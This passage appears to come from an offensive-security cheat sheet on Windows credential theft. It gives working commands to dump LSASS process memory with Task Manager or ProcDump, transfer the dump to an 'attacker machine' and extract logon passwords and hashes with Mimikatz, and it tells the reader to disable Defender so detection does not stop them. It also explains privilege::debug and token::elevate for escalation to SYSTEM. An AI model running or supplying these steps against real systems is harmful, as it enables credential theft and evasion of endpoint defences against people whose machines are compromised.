 ```
// find LSASS in the list, right-click on LSASS, dump process memory
```

Transfer the dump to your attacker Windows machine and use Mimikatz to get a hold of the credentials:

```
// extract credentials on attacker machine
// copy/paste dump out
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```

### ProcDump

- Requirements: initial access to a machine directly (e.g. via RDP)
- Detections: Defender will catch messing around with LSASS memory, make sure you turn it off to actually collect the DMP file

```
// dump LSASS manually
// copy/paste procdump into tmp
tasklist /fi "imagename eq lsass.exe"
procdump.exe -accepteula -ma 656 C:\ProgramData\lsass656.dmp
```

Transfer the dump to your attacker Windows machine and use Mimikatz to get a hold of the credentials:

```
// extract credentials on attacker machine
// copy/paste dump out
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```

### Mimikatz Local Execution

Among other things, Mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached.

- Requirements: initial access to a machine directly (e.g. via RDP)
- Detections: Mimikatz will get caught on disk, make sure you turn it off to actually be able to execute it

Since LSASS is a privileged process running under the SYSTEM user, we must launch Mimikatz from an administrative command prompt. To extract password hashes, we must first execute two commands.

* The first is `privilege::debug` which enables the SeDebugPrivilege access right required to tamper with another process. If this command fails, Mimikatz was most likely not executed with administrative privileges.
* It's important to understand that LSASS is a SYSTEM process, which means that it has even higher privileges that Mimikatz running with administrative privileges. To address this, we can use the `token::elevate` command to elevate the security token from high integrity (administrator) to SYSTEM integrity.

